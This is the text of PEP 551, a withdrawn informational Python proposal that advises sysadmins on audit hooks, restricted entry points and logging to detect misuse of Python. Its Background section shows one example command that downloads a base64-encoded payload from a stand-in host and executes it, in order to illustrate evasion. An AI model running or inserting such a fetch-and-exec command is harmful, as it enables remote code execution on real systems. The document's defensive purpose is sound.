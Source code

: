 PEP: 551
Title: Security transparency in the Python runtime
Version: $Revision$
Last-Modified: $Date$
Author: Steve Dower <steve.dower@python.org>
Status: Withdrawn
Type: Informational
Content-Type: text/x-rst
Created: 23-Aug-2017
Python-Version: 3.7
Post-History: 24-Aug-2017 (security-sig), 28-Aug-2017 (python-dev)

.. note::
   This PEP has been withdrawn. For information about integrated
   CPython into a secure environment, we recommend consulting your own
   security experts.

Relationship to PEP 578
=======================

This PEP has been split into two since its original posting.

See `PEP 578 <https://www.python.org/dev/peps/pep-0578/>`_ for the
auditing APIs proposed for addition to the next version of Python.

This is now an informational PEP, providing guidance to those planning
to integrate Python into their secure or audited environments.

Abstract
========

This PEP describes the concept of security transparency and how it
applies to the Python runtime. Visibility into actions taken by the
runtime is invaluable in integrating Python into an otherwise secure
and/or monitored environment.

The audit hooks described in PEP-578 are an essential component in
detecting, identifying and analyzing misuse of Python. While the hooks
themselves are neutral (in that not every reported event is inherently
misuse), they provide essential context to those who are responsible
for monitoring an overall system or network. With enough transparency,
attackers are no longer able to hide.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote
or elevated code execution. However, in our modern connected world, the
more dangerous vulnerabilities are those that enable advanced persistent
threats (APTs). APTs are achieved when an attacker is able to penetrate
a network, establish their software on one or more machines, and over
time extract data or intelligence. Some APTs may make themselves known
by maliciously damaging data (e.g., `WannaCrypt
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use
a combination of traditional vulnerabilities, social engineering,
phishing (or spear-phishing), thorough network analysis, and an
understanding of misconfigured environments to establish themselves and
do their work.

The first infected machines may not be the final target and may not
require special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to
spread to production machines through normal deployment channels. It is
common for APTs to persist on as many machines as possible, with sheer
weight of presence making them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their
tracks, the biggest barrier to detection is a lack of insight. System
administrators with large networks rely on distributed logs to
understand what their machines are doing, but logs are often filtered to
show only error conditions. APTs that are attempting to avoid detection
will rarely generate errors or abnormal events. Reviewing normal
operation logs involves a significant amount of effort, though work is
underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that
are already installed on the target machines, since log messages from
these tools are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the
existence of APTs or methods and mitigations that do not apply to this
PEP. For further information about the field, we recommend reading or
watching the resources listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its
prevalence on server and developer machines, its ability to execute
arbitrary code provided as data (as opposed to native binaries), and its
complete lack of internal auditing. This allows attackers to download,
decrypt, and execute malicious code with a single command::

    python -c "import urllib.request, base64;
        exec(base64.b64decode(
            urllib.request.urlopen('http://my-exploit/py.b64')
        ).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being
written to disk (base64 is often sufficient to bypass these checks). It
also bypasses protections such as file access control lists or
permissions (no file access occurs), approved application lists
(assuming Python has been approved for other uses), and automated
auditing or logging (assuming Python is allowed to access the internet
or access another machine on the local network from which to obtain its
payload).

General consensus among the security community is that totally
preventing attacks is infeasible and defenders should assume that they
will often detect attacks only after they have succeeded. This is known
as the "assume breach" mindset. [1]_ In this scenario, protections such
as sandboxing and input validation have already failed, and the
important task is detection, tracking, and eventual removal of the
malicious code. To this end, the primary feature required from Python is
security transparency: the ability to see what operations the Python
runtime is performing that may indicate anomalous or malicious use.
Preventing such use is valuable, but secondary to the need to know that
it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which
events within a scripting engine are worth logging. However, given the
value of many logs events are not recognized until after an attack is
detected, it is important to capture as much as possible and filter
views rather than filtering at the source (see the No Easy Breach video
from `Further Reading`_). Events that are always of interest include
attempts to bypass auditing, attempts to load and execute code that is
not correctly signed or access-controlled, use of uncommon operating
system functionality such as debugging or inter-process inspection
tools, most network access and DNS resolution, and attempts to create
and hide files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in
order to detect abnormal or malicious usage. With PEP 578, the Python
runtime gains the ability to provide this. The aim of this PEP is to
assist system administrators with deploying a security transparent
version of Python that can integrate with their existing auditing and
protection systems.

On Windows, some specific features that may be integrated through the
hooks added by PEP 578 include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* auditd [12]_
* SELinux labels [13]_
* check execute bit on imported modules

On macOS, some features that may be integrated are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on
production machines is highly appealing to system administrators and
will make Python a more trustworthy dependency for application
developers.

True security transparency is not fully achievable by Python in
isolation. The runtime can audit as many events as it likes, but unless
the logs are reviewed and analyzed there is no value. Python may impose
restrictions in the name of security, but usability may suffer.
Different platforms and environments will require different
implementations of certain security features, and organizations with the
resources to fully customize their runtime should be encouraged to do
so.

Summary Recommendations
=======================

These are discussed in greater detail in later sections, but are
presented here to frame the overall discussion.

Sysadmins should provide and use an alternate entry point (besides
``python.exe`` or ``pythonX.Y``) in order to reduce surface area and
securely enable audit hooks. A discussion of what could be restricted
is below in `Restricting the Entry Point`_.

Sysadmins should use all available measures provided by their operating
system to prevent modifications to their Python installation, such as
file permissions, access control lists and signature validation.

Sysadmins should log everything and collect logs to a central location
as quickly as possible - avoid keeping logs on outer-ring machines.

Sysadmins should prioritize _detection_ of misuse over _prevention_ of
misuse.


Restricting the Entry Point
===========================

One of the primary vulnerabilities exposed by the presence of Python
on a machine is the ability to execute arbitrary code without
detection or verification by the system. This is made significantly
easier because the default entry point (``python.exe`` on Windows and
``pythonX.Y`` on other platforms) allows execution from the command
line, from standard input, and does not have any hooks enabled by
default.

Our recommendation is that production machines should use a modified
entry point instead of the default. Once outside of the development
environment, there is rarely a need for the flexibility offered by the
default entry point.

In this section, we describe a hypothetical ``spython`` entry point
(``spython.exe`` on Windows; ``spythonX.Y`` on other platforms) that
provides a level of security transparency recommended for production
machines. An associated example implementation shows many of the
features described here, though with a number of concessions for the
sake of avoiding platform-specific code. A sufficient implementation
will inherently require some integration with platform-specific
security features.

Official distributions will not include any ``spython`` by default, but
third party distributions may include appropriately modified entry
points that use the same name.

**Remove most command-line arguments**

The ``spython`` entry point requires a script file be passed as the
first argument, and does not allow any options to precede it. This
prevents arbitrary code execution from in-memory data or non-script
files (such as pickles, which could be executed using
``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment
variables) and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it
will be used to initialize ``sys.path`` following the rules currently
described `for Windows
<https://docs.python.org/3/using/windows.html#finding-modules>`_.

For the sake of demonstration, the example implementation of
``spython`` also allows the ``-i`` option to start in interactive mode.
This is not recommended for restricted entry points.

**Log audited events**

Before initialization, ``spython`` sets an audit hook that writes all
audited events to an OS-managed log file. On Windows, this is the Event
Tracing functionality,[7]_ and on other platforms they go to
syslog.[11]_ Logs are copied from the machine as frequently as possible
to prevent loss of information should an attacker attempt to clear
local logs or prevent legitimate access to the machine.

The audit hook will also abort all ``sys.addaudithook`` events,
preventing any other hooks from being added.

The logging hook is written in native code and configured before the
interpreter is initialized. This is the only opportunity to ensure that
no Python code executes without auditing, and that Python code cannot
prevent registration of the hook.

Our primary aim is to record all actions taken by all Python processes,
so that detection may be performed offline against logged events.
Having all events recorded also allows for deeper analysis and the use
of machine learning algorithms. These are useful for detecting
persistent attacks, where the attacker is intending to remain within
the protected machines for some period of time, as well as for later
analysis to determine the impact and exposure caused by a successful
attack.

The example implementation of ``spython`` writes to a log file on the
local machine, for the sake of demonstration. When started with ``-i``,
the example implementation writes all audit events to standard error
instead of the log file. The ``SPYTHONLOG`` environment variable can be
used to specify the log file location.

**Restrict importable modules**

Also before initialization, ``spython`` sets an open-for-import hook
that validates all files opened with ``os.open_for_import``. This
implementation requires all files to have a ``.py`` suffix (preventing
the use of cached bytecode), and will raise a custom audit event
``spython.open_for_import`` containing ``(filename, True_if_allowed)``.

After opening the file, the entire contents is read into memory in a
single buffer and the file is closed.

Compilation will later trigger a ``compile`` event, so there is no need
to validate the contents now using mechanisms that also apply to
dynamically generated code. However, if a whitelist of source files or
file hashes is available, then other validation mechanisms such as
DeviceGuard [4]_ should be performed here.



**Restrict globals in pickles**

The ``spython`` entry point will abort all ``pickle.find_class`` events
that use the default implementation. Overrides will not raise audit
events unless explicitly added, and so they will continue to be allowed.

**Prevent os.system**

The ``spython`` entry point aborts all ``os.system`` calls.

It should be noted here that ``subprocess.Popen(shell=True)`` is
allowed (though logged via the platform-specific process creation
events). This tradeoff is made because it is much simpler to induce a
running application to call ``os.system`` with a single string argument
than a function with multiple arguments, and so it is more likely to be
used as part of an exploit. There is also little justification for
using ``os.system`` in production code, while ``subprocess.Popen`` has
a large number of legitimate uses. Though logs indicating the use of
the ``shell=True`` argument should be more carefully scrutinised.

Sysadmins are encouraged to make these kinds of tradeoffs between
restriction and detection, and generally should prefer detection.

General Recommendations
=======================

Recommendations beyond those suggested in the previous section are
difficult, as the ideal configuration for any environment depends on
the sysadmin's ability to manage, monitor, and respond to activity on
their own network. Nonetheless, here we attempt to provide some context
and guidance for integrating Python into a complete system.

This section provides recommendations using the terms **should** (or
**should not**), indicating that we consider it risky to ignore the
advice, and **may**, indicating that for the advice ought to be
considered for high value systems. The term **sysadmin** refers to
whoever is responsible for deploying Python throughout the network;
different organizations may have an alternative title for the
responsible people.

Sysadmins **should** build their own entry point, likely starting from
the ``spython`` source, and directly interface with the security systems
available in their environment. The more tightly integrated, the less
likely a vulnerability will be found allowing an attacker to bypass
those systems. In particular, the entry point **should not** obtain any
settings from the current environment, such as environment variables,
unless those settings are otherwise protected from modification.

Audit messages **should not** be written to a local file. The
``spython`` entry point does this for example and testing purposes. On
production machines, tools such as ETW [7]_ or auditd [12]_ that are
intended for this purpose should be used.

The default ``python`` entry point **should not** be deployed to
production machines, but could be given to developers to use and test
Python on non-production machines. Sysadmins **may** consider deploying
a less restrictive version of their entry point to developer machines,
since any system connected to your network is a potential target.
Sysadmins **may** deploy their own entry point as ``python`` to obscure
the fact that extra auditing is being included.

Python deployments **should** be made read-only using any available
platform functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures
for every file in a Python deployment, ideally verified using a private
certificate. For example, Windows supports embedding signatures in
executable files and using catalogs for others, and can use DeviceGuard
[4]_ to validate signatures either automatically or using an
``open_for_import`` hook.

Sysadmins **should** log as many audited events as possible, and
**should** copy logs off of local machines frequently. Even if logs are
not being constantly monitored for suspicious activity, once an attack
is detected it is too late to enable auditing. Audit hooks **should
not** attempt to preemptively filter events, as even benign events are
useful when analyzing the progress of an attack. (Watch the "No Easy
Breach" video under `Further Reading`_ for a deeper look at this side of
things.)

Most actions **should not** be aborted if they could ever occur during
normal use or if preventing them will encourage attackers to work around
them. As described earlier, awareness is a higher priority than
prevention. Sysadmins **may** audit their Python code and abort
operations that are known to never be used deliberately.

Audit hooks **should** write events to logs before attempting to abort.
As discussed earlier, it is more important to record malicious actions
than to prevent them.

Sysadmins **should** identify correlations between events, as a change
to correlated events may indicate misuse. For example, module imports
will typically trigger the ``import`` auditing event, followed by an
``open_for_import`` call and usually a ``compile`` event. Attempts to
bypass auditing will often suppress some but not all of these events. So
if the log contains ``import`` events but not ``compile`` events,
investigation may be necessary.

The first audit hook **should** be set in C code before
``Py_Initialize`` is called, and that hook **should** unconditionally
abort the ``sys.addloghook`` event. The Python interface is primarily
intended for testing and development.

To prevent audit hooks being added on non-production machines, an entry
point **may** add an audit hook that aborts the ``sys.addloghook`` event
but otherwise does nothing.

On production machines, a non-validating ``open_for_import`` hook
**may** be set in C code before ``Py_Initialize`` is called. This
prevents later code from overriding the hook, however, logging the
``setopenforexecutehandler`` event is useful since no code should ever
need to call it. Using at least the sample ``open_for_import`` hook
implementation from ``spython`` is recommended.

Since ``importlib``'s use of ``open_for_import`` may be easily bypassed
with monkeypatching, an audit hook **should** be used to detect
attribute changes on type objects.

Things not to do
================

This section discusses common or "obviously good" recommendations that
we are specifically *not* making. These range from useless or incorrect
through to ideas that are simply not feasible in any real world
environment.

**Do not** attempt to implement a sandbox within the Python runtime.
There is a long history of attempts to allow arbitrary code limited use
of Python features (such as [14]_), but no general success. The best
options are to run unrestricted Python within a sandboxed environment
with at least hypervisor-level isolation, or to prevent unauthorised
code from starting at all.

**Do not** rely on static analysis to verify untrusted code before use.
The best options are to pre-authorise trusted code, such as with code
signing, and if not possible to identify known-bad code, such as with
an anti-malware scanner.

**Do not** use audit hooks to abort operations without logging the
event first. You will regret not knowing why your process disappeared.

[TODO - more bad advice]

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] Antimalware Scan Interface, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

.. [12] `<http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>`_

.. [13] SELinux access decisions `<http://man7.org/linux/man-pages/man3/avc_entry_ref_init.3.html>`_

.. [14] The failure of pysandbox `<https://lwn.net/Articles/574215/>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the
Python runtime safer for production use, and especially to James Powell
for doing much of the initial research, analysis and implementation, Lee
Holmes for invaluable insights into the info-sec field and PowerShell's
responses, and Brett Cannon for the restraining and grounding
discussions.

Copyright
=========

Copyright (c) 2017-2018 by Microsoft Corporation. This material may be
distributed only subject to the terms and conditions set forth in the
Open Publication License, v1.0 or later (the latest version is presently
available at http://www.opencontent.org/openpub/).
